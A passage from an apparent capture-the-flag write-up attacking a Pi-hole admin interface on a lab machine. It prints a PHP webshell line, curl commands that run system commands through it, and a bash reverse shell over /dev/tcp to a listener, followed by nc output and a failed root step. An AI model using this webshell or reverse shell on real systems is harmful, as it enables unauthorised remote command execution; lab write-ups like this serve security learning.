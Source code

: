     .domains
    <?php system($_GET['cmd']); ?>
    
    ^C
    

The page looks similar to above, but this time it reports that retrieval
failed:

![image-20200820162949485](https://0xdfimages.gitlab.io/img/image-20200820162949485.png)

Despite the failure message, there is a webshell at `/admin/scripts/pi-
hole/php/0xdf.php`:

    
    
    root@kali# curl http://127.0.0.1:2222/admin/scripts/pi-hole/php/0xdf.php?cmd=id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Shell

I can get an interactive shell here using the following:

    
    
    root@kali# curl -s -G http://127.0.0.1:2222/admin/scripts/pi-hole/php/0xdf.php --data-urlencode "cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.24/443 0>&1'"
    

At a `nc` listener:

    
    
    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.200.
    Ncat: Connection from 10.10.10.200:50598.
    bash: cannot set terminal process group (526): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)
    

### Rabbit Hole

I wasted a lot of time trying to get the other half of the Pi-Hole exploit
that goes to root to work. It doesn’t. The next step is to use the same upload
steps to append to an existing script, `teleporter.php`. Unfortunately, the
file isn’t writable by www-data:

    
    
    www-data@pihole:/var/www/html/admin/scripts/pi-hole/php$ ls -l teleporter.php
    -rw-r--r-- 1 root root 6032 Sep 20  2019 teleporter.php
    

I suspect in a typical Pi-Hole this file is writable by www-data.

## Shell as root
